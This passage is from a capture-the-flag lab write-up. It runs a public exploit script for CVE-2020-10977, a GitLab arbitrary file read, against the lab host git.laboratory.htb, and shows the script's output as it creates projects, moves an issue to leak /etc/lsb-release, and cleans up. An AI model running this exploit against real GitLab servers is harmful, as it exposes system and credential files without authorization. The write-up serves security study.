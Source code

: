 In searching for information about this exploit, I found [this
repo](https://github.com/thewhiteh4t/cve-2020-10977). The script is
pretty slick:



    oxdf@parrot$ python cve_2020_10977.py https://git.laboratory.htb 0xdf 0xdf0xdf
    ----------------------------------
    --- CVE-2020-10977 ---------------
    --- GitLab Arbitrary File Read ---
    --- 12.9.0 & Below ---------------
    ----------------------------------

    [>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]
    [>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]

    [+] Target        : https://git.laboratory.htb
    [+] Username      : 0xdf
    [+] Password      : 0xdf0xdf
    [+] Project Names : ProjectOne, ProjectTwo

    [!] Trying to Login...
    [+] Login Successful!
    [!] Creating ProjectOne...
    [+] ProjectOne Created Successfully!
    [!] Creating ProjectTwo...
    [+] ProjectTwo Created Successfully!
    [>] Absolute Path to File : /etc/lsb-release
    [!] Creating an Issue...
    [+] Issue Created Successfully!
    [!] Moving Issue...
    [+] Issue Moved Successfully!
    [+] File URL : https://git.laboratory.htb/0xdf/ProjectTwo/uploads/4a8e600fea969e736ffa05fa84f1d14d/lsb-release

    [>] Absolute Path to File :



Now I'll enter a filename, and it works:



    [>] Absolute Path to File : /etc/lsb-release
    ----------------------------------------

    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.6 LTS"

    ----------------------------------------



On exiting, it cleans up as well:



    [>] Absolute Path to File : ^C
    [-] Keyboard Interrupt
    [!] Deleting ProjectOne...
    [+] ProjectOne Successfully Deleted!
    [!] Deleting ProjectTwo...
    [+] ProjectTwo Successfully Deleted!

